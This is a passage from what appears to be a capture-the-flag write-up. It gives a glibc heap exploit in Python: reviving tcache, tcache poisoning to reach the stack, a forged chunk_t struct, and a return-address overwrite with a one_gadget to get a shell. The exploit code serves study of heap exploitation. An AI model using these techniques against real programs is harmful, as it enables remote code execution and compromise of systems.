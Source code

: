 ```py
# Reactivating tcache
payload = mp_digest[0x50:0x80]
edit(18, payload)
```
I put the `p64(0x0) * 2` becouse my allocation was 2 qword above the mp_ struct.

## Tcache poisoning
Now through tcache poisoning we can leak argv (so a stack address) and then we can allocate in the stack to overwrite the `chunks` variable and redirect it to a fake `chunk_t` struct that we can create in a normal heap allocation.
We can set the fake struct such that we allocate in the stack frame of a function without the canary. I think the best choiche is `get_uint`.
```py
# Allocating where the chunks variable is stored to overwrite it
free(8)
malloc(0x38)
malloc(0x38)
free(8)
resize(11, 0)
resize(11, 0x38)
payload = p64(secret ^ (rbp - 0x10))
edit(11, payload)
malloc(0x38)
malloc(0x38)

# Creating a fake chunk_t struct to write over the return address of chunk_edit
fake_struct_address = (secret << 12) | 0x010
print(f"Fake struct: {hex(fake_struct_address)}")
malloc(0x50)
payload = flat(
    0x0,
    0x0,
    0x0,
    0x0,
    chunk_edit_stack + 0x8,
    (0x630 << 32) | (0x630 << 1) | 0x1,
    fake_struct_address,
    (0x50 << 32) | (0x60 << 1) | 0x1
)
edit(20, payload)

# Overwriting the struct address with the fake one
edit(19, p64(fake_struct_address))
```

## RCE
Now we have an allocation on the stack frame of `get_uint`. We put the allocation such that the size of the chunk overlap with the `value` variable, in this way the chunk size will be exactly our input when the function ask for the chunk index. I choose a size of 0x640 (in the struct is stored the usable size which is 0x10 less), so the chunk has to be at index `0x642 % 32 = 2` (0x642 becouse we need the ismmapped flag to bypass `INVALID_SIZE`). At this point we can call edit on index 1602 and we will be able to write above the stack frame of the current function (which is not protected by canary). To get the shell I just overwritten the return address with a one_gadget
